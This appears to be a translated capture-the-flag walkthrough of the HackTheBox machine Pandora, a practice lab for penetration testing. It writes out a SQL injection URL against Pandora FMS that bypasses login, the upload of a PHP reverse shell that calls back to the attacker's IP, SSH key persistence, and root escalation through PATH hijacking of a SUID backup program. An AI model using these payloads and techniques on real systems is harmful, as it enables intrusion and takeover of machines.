










# 黑客盒子里的潘多拉——详细演练

> 原文：<https://infosecwriteups.com/pandora-from-hackthebox-detailed-walkthrough-7d52066e5dc5?source=collection_archive---------2----------------------->

## 向您展示完成盒子所需的所有工具和技术。

# 机器信息


黑客盒子里的潘多拉

Pandora 是 HackTheBox 上的一台简单机器。端口 80 上的初始网站什么也没有显示，但是 UDP 端口的枚举暴露了 SSH 的凭证。我们找到一个二进制文件，它将我们指向一个在本地运行的网站，我们通过端口隧道访问这个网站。我们通过一个漏洞获得了机器上潘多拉 FMS 的管理员权限。从那里，我们上传一个反向外壳，作为一个低级用户获得访问权限。枚举找到了另一个二进制文件，这个二进制文件使用了一个不带引号的 tar 路径来备份 pandora 站点。我们用这个得到一个根外壳来完成盒子。

所需的技能是基本的网络和操作系统枚举。学到的技能是利用公共漏洞和隧道流量来访问远程站点。

[](https://www.hackthebox.com/home/machines/profile/423) [## 潘多拉——破解盒子::渗透测试实验室

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.com](https://www.hackthebox.com/home/machines/profile/423) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:



盒子的 Nmap 扫描

只是从 80 端口上的一个网站开始查看:



在潘多拉上玩网站

环顾四周，我们发现这是一个简单的 html 网站，没有什么有趣的。接下来，我快速扫描了 UDP 端口:

```
┌──(root💀kali)-[~/htb/pandora]
└─# nmap -sU --top-ports=20 10.10.11.136
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-19 21:32 GMT
Nmap scan report for 10.10.11.136
Host is up (0.025s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    closed        dhcpc
69/udp    closed        tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   open          snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   closed        isakmp
514/udp   open|filtered syslog
520/udp   open|filtered route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  open|filtered upnp
4500/udp  closed        nat-t-ike
49152/udp open|filtered unknown
Nmap done: 1 IP address (1 host up) scanned in 8.40 seconds
```

# 简单网络管理协议(Simple Network Management Protocol)

SNMP 端口 161 已打开，让我们仔细看看:

```
┌──(root💀kali)-[~]
└─# nmap -sC -sV -sU -p161 10.10.11.136 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-19 21:26 GMT
Nmap scan report for 10.10.11.136
Host is up (0.021s latency).

PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-win32-software: 
|   accountsservice_0.6.55-0ubuntu12~20.04.5_amd64; 2021-12-07T12:57:21
|   adduser_3.118ubuntu2_all; 2021-02-01T17:21:32
|   alsa-topology-conf_1.2.2-1_all; 2021-02-01T17:25:18
|   alsa-ucm-conf_1.2.2-1ubuntu0.11_all; 2021-12-07T12:57:25
|   amd64-microcode_3.20191218.1ubuntu1_amd64; 2021-06-11T12:44:07
|   apache2-bin_2.4.41-4ubuntu3.8_amd64; 2021-12-07T12:57:07
|   apache2-data_2.4.41-4ubuntu3.8_all; 2021-12-07T12:57:07
|   apache2-utils_2.4.41-4ubuntu3.8_amd64; 2021-12-07T12:57:07
<SNIP>
|   837: 
|     Name: cron
|     Path: /usr/sbin/CRON
|     Params: -f
|   838: 
|     Name: sh
|     Path: /bin/sh
|     Params: -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p <HIDDEN>'
<SNIP>
```

有一个很长的列表被返回，但我们看到一些有趣的事情，用户名和密码已经泄露。

# 以 Daniel 身份进行 SSH 访问

在 SSH 端口上尝试这些凭证时，我们看到了打开的作品:

```
┌──(root💀kali)-[~]
└─# ssh daniel@10.10.11.136                                          
daniel@10.10.11.136's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
  System information as of Wed 19 Jan 21:34:26 UTC 2022
daniel@pandora:~$
```

我们进入了系统，快速浏览了一下 passwd 文件，发现还有一个名为 matt 的用户:



用户密码的 Grep

用户标志归 Matt 所有，因此我们还无法获取:

```
daniel@pandora:~$ ls -ls /home/matt/
4 -rw-r----- 1 root matt 33 Jan 19 17:08 user.txt
```

查看正在运行的进程，可以看到与我们之前看到的相同的长列表:



机器上运行的进程列表

# 可疑二进制

文件 host_check 正在使用我们用来获取的凭据运行，让我们来看看:

```
daniel@pandora:~$ cat /usr/bin/host_check
ELF>�@:@8
H�=��(�����ÐAWL�=�+AVI��AUI��ATA��UH�-�+SL)�H������H��t�L��L��D��A��H��H9�u�H�[]A\A]A^A_��H�H��
PandoraFMS host check utilityNow attempting to check PandoraFMS registered hosts.Files will be saved to ~/.host_check/usr/bin/curl 
'http://127.0.0.1/pandora_console/include/api.php?op=get&op2=all_agents&return_type=csv&other_mode=url_encode_separator_%7C&user=daniel&pass='
> ~/.host_check 2>/dev/nullHost check unsuccessful!
Please check your credentials.
Terminating program!Host check successful!
Terminating program!Ussage: ./host_check -u username -p password.Two arguments expected.����X����h���XM���������X���0zRx
```

这是一个二进制文件，所以 cat 的输出是混乱的，但是我们可以看到 curl 带有一个 url。我们可以在盒子上试试:



卷曲内部网站

# 端口转发

好吧，我不知道它在做什么！然而，在环回的 IP 上运行着一些东西，看起来像是一个叫做 pandora_console 的子文件夹。我们可以像过去多次一样使用端口转发，最近一次是在 [Static](https://pencer.io/ctf/ctf-htb-static/#user-ssh-access) 上:

```
┌──(root💀kali)-[~]
└─# ssh -L 8000:127.0.0.1:80 daniel@10.10.11.136
daniel@10.10.11.136's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
  System information as of Wed 19 Jan 21:52:09 UTC 2022
Last login: Wed Jan 19 21:34:27 2022 from 10.10.14.10
daniel@pandora:~$
```

上面是使用 Daniel 的凭证登录到机器上的 SSH 会话，但这次我们通过 SSH 隧道将任何流量转发到我们的 Kali 端口 8000，到达端口 80 上的机器。为此，我们可以使用 Kali 上的 web 浏览器通过 SSH 访问我们在机器上找到的网站:


通过端口转发访问潘多拉控制台

# 潘多拉控制台

现在我们可以进入那个控制台，我们看到一个叫做潘多拉 FMS 的东西。点击左上方的文档链接会将我们带到[这里](https://pandorafms.com/manual)。此外，在此登录页面的底部，我们看到包装盒上的版本显示为 v7.0NG.742_FIX_PERL2020。

快速搜索后，我发现[的这个](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained)博客显示了潘多拉上那个版本的一个漏洞。在那里查找 CVE，我们发现[这个](https://github.com/ibnuuby/CVE-2021-32099) GitHub 回购与概念验证尝试。

这很简单，我们只需将它粘贴到 Kali 上的浏览器中，同时让我们的隧道转发到盒子:

```
http://127.0.0.1:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario%7Cs:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```



Kali 上的 web 浏览器中粘贴了漏洞利用

在一个新标签中，再次打开 pandora_console，现在我们可以以管理员身份访问:



作为管理员的潘多拉 FMS 控制台

有很多要看的，但最终我找到了这个文件管理器部分:



文件管理器

这让我看到了一个文件列表。单击右上方的图标会弹出上传文件框:



上传文件框

# 反向外壳

是时候反转外壳了。让我们使用一个已经包含在 Kali 中的 PHP shells:

```
┌──(root💀kali)-[~/htb/pandora]
└─# cp /usr/share/laudanum/php/php-reverse-shell.php .

┌──(root💀kali)-[~/htb/pandora]
└─# cat php-reverse-shell.php | grep '$ip'
$ip = '10.10.14.10';  // CHANGE THIS
```

我所做的只是把 IP 地址改成了我现在的 tun0。切换回网页并上传文件:


文件管理器成功上传了文件

这很有效，向下滚动长长的文件列表，我们可以找到我们的文件:



查找我们上传的文件

将鼠标悬停在文件上，我们可以看到 URL 中的路径:

```
http://127.0.0.1:8000/pandora_console/index.php?sec=gsetup&sec2=godmode/setup/file_manager&directory=images/backgrounds&hash2=764b0acce6acdb3e5ca2a6ebb646ec29
```

在那里你可以看到它说目录=图像。这是我们上传的文件的路径，在 Kali 上的另一个终端中启动 nc 监听，然后浏览到我们上传的 shell:


在浏览器中输入我们文件的路径

回到终端，查看我们是否已连接:

```
┌──(root💀kali)-[~/htb/pandora]
└─# nc -nlvp 8888             
listening on [any] 8888 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.136] 55864
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$
```

首先让我们升级我们的外壳:

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
matt@pandora:/$ ^Z
zsh: suspended  nc -nlvp 8888
┌──(root💀kali)-[~/htb/pandora]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 8888
matt@pandora:/$ export TERM=xterm
matt@pandora:/$ stty rows 51 cols 236
```

# 用户标志

那更好。现在我们可以看到我们是以 Matt 的身份进入的，让我们抓住用户标志:

```
matt@pandora:/$ id
uid=1000(matt) gid=1000(matt) groups=1000(matt)

matt@pandora:/$ cat /home/matt/user.txt 
6de8401da164b118c4bbad8549bde0d1
```

# 潘多拉备份

环顾四周发现了一份有趣的文件:

```
matt@pandora:/$ find / -perm -4000 2>/dev/null
<SNIP>
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
<SNIP>
```

潘多拉 _ 备份是什么？

```
matt@pandora:/$ ls -lsa /usr/bin/pandora_backup 
20 -rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup
```

不确定，让我们看看它有什么作用:

```
matt@pandora:/$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
Backup failed!
Check your permissions!
```

好像不管用。用 cat 查看它的内部，发现它是另一个二进制文件，我们可以看到它使用 tar 将 pandora 安装备份到根目录下的一个文件夹中:

```
matt@pandora:/$ cat /usr/bin/pandora_backup
ELF>�@0:@8
          @@@@h���HHmm   HH�-�=�=hp�-�=�=����DDP�td� � � <<Q�tdR�td�-�=�=▒▒/lib64/ld-linux-x86-64.so.2GNUqtðG7�%H9�
<SNIP>
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*Backup failed!
Check your permissions!Backup successful!Terminating program!<(�������������X}�������h���8zRx
```

# SSH 访问作为 Matt

在毫无结果的尝试之后，我最终决定放弃这个逆向 shell，使用一个合适的 SSH 会话。首先在 Kali 上创建一个新的密钥对:

```
┌──(root💀kali)-[~/htb/pandora]
└─# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/htb/pandora/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/htb/pandora/id_rsa
Your public key has been saved in /root/htb/pandora/id_rsa.pub
The key fingerprint is:
SHA256:sJrMlhq6+lBuOaxgeVcKujv75rGInYGSf1A2GHa2fXY root@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|  o o            |
| . = o.          |
|  . = .oo E      |
|  .+ ..+S.       |
| *++.+o          |
|*+O+Bo           |
|=O+O=            |
|BB&=             |
+----[SHA256]-----+
```

不要忘记更改权限:

```
┌──(root💀kali)-[~/htb/pandora]
└─# chmod 600 id_rsa
```

将公钥复制到剪贴板:

```
┌──(root💀kali)-[~/htb/pandora]
└─# cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDoUK0S9FLwAzcvY5zWa70acZ/CWevVuxj3zIfjhFjZnklGvsCpFxTK124kVy8htLciaaP25f+14g2cD65Ao5DOJQclwI7h8oEXk879NvwDhBnqTt6S+OXn44XPIFvt9cdpaaxDDMZkRrh0mHtC9XVnTk0d/Sq61afh5/k9MozSJpvX55et2p/+Hj7Mk77q/zK2/Nt4MFtNogwlVd9ArQgOiyljKpG1Byjb/IYOssbdhgV1rgqoSVInXgWUeoXZmSpkmzK/W5wQ6sCkRBBmnHe8aLsZr++5YDZM9M8yuO1HxMK0KhSl5xrjvwBp7f8+PLt9DR+vmgiHxz5JUIPu1lOFrBxjozM5oXA4WBvmDFzJH+B4Ti0PJNA2qMCXO8SNFk06+tkkxHZ4tBRhpTpaESKafeFzlIamGIA9xKlL9bxfPhHKwAHVEo8Emopj4foaf8ho3Cy7u5/69s0p1DWZ1bAED367C0QbF5GmvsI/9Zny03badPLt17O558foH9+RfOE= root@kali
```

回到盒子上。Matts 主目录中的 ssh 文件夹:

```
matt@pandora:/home/matt$ mkdir .ssh
```

现在将 Kali 中公钥粘贴到盒子上，并保存到 authorized_keys:

```
matt@pandora:/home/matt$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDoUK0S9FLwAzcvY5zWa70acZ/CWevVuxj3zIfjhFjZnklGvsCpFxTK124kVy8htLciaaP25f+14g2cD65Ao5DOJQclwI7h8oEXk879NvwDhBnqTt6S+OXn44XPIFvt9cdpaaxDDMZkRrh0mHtC9XVnTk0d/Sq61afh5/k9MozSJpvX55et2p/+Hj7Mk77q/zK2/Nt4MFtNogwlVd9ArQgOiyljKpG1Byjb/IYOssbdhgV1rgqoSVInXgWUeoXZmSpkmzK/W5wQ6sCkRBBmnHe8aLsZr++5YDZM9M8yuO1HxMK0KhSl5xrjvwBp7f8+PLt9DR+vmgiHxz5JUIPu1lOFrBxjozM5oXA4WBvmDFzJH+B4Ti0PJNA2qMCXO8SNFk06+tkkxHZ4tBRhpTpaESKafeFzlIamGIA9xKlL9bxfPhHKwAHVEo8Emopj4foaf8ho3Cy7u5/69s0p1DWZ1bAED367C0QbF5GmvsI/9Zny03badPLt17O558foH9+RfOE= root@kali" > .ssh/authorized_keys
```

不要忘记更改权限:

```
matt@pandora:/home/matt$ chmod -R 600 .ssh/
```

现在，我们可以使用我们的密钥通过 SSH 以 Matt 的身份登录:

```
┌──(root💀kali)-[~/htb/pandora]
└─# ssh -i id_rsa matt@10.10.11.136
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
ystem information as of Wed 19 Jan 22:51:24 UTC 2022
matt@pandora:~$
```

这一次，当我们运行备份时，它起作用了:

```
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar: Removing leading `/' from member names
/var/www/pandora/pandora_console/AUTHORS
tar: Removing leading `/' from hard link targets
/var/www/pandora/pandora_console/COPYING
/var/www/pandora/pandora_console/DB_Dockerfile
/var/www/pandora/pandora_console/DEBIAN/
/var/www/pandora/pandora_console/DEBIAN/md5sums
/var/www/pandora/pandora_console/DEBIAN/conffiles
/var/www/pandora/pandora_console/DEBIAN/control
<SNIP>
/var/www/pandora/pandora_console/vendor/egulias/email-validator/EmailValidator/Validation/MultipleErrors.php
/var/www/pandora/pandora_console/vendor/egulias/email-validator/EmailValidator/Validation/EmailValidation.php
/var/www/pandora/pandora_console/vendor/egulias/email-validator/EmailValidator/Validation/DNSCheckValidation.php
/var/www/pandora/pandora_console/vendor/egulias/email-validator/EmailValidator/EmailParser.php
/var/www/pandora/pandora_console/vendor/egulias/email-validator/EmailValidator/EmailValidator.php
/var/www/pandora/pandora_console/vendor/egulias/email-validator/README.md
/var/www/pandora/pandora_console/vendor/egulias/email-validator/composer.json
/var/www/pandora/pandora_console/vendor/egulias/email-validator/phpunit.xml.dist
/var/www/pandora/pandora_console/vendor/egulias/email-validator/LICENSE
/var/www/pandora/pandora_console/ws.php
Backup successful!
Terminating program!
```

# 权限提升

现在，我们可以利用在查看备份程序时看到的未加引号的 tar 路径。

只需创建我们自己的名为 tar 的文件，该文件调用 bash 并使其可执行:

```
matt@pandora:~$ echo '/bin/bash;' > tar
matt@pandora:~$ chmod +x tar
```

将该文件夹添加到开头的 PATH 中，以便使用我们的 tar 版本，而不是正确的版本:

```
matt@pandora:~$ export PATH=/home/matt:$PATH
matt@pandora:~$ $PATH
-bash: /home/matt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin: No such file or directory
```

由于路径的开头是/home/matt，备份程序将在那里使用 tar。再次运行备份:

```
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:~#
```

# 根标志

它在做任何事情之前停止，我们在根提示符下。让我们抓住旗子:

```
root@pandora:~# id
uid=0(root) gid=1000(matt) groups=1000(matt)
root@pandora:~# cat /root/root.txt
4bfc0ffaf379e65d41adb3f0f3b9144a
```

完成了。希望你喜欢这个盒子，下次再见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 5 月 24 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-pandora/)*。*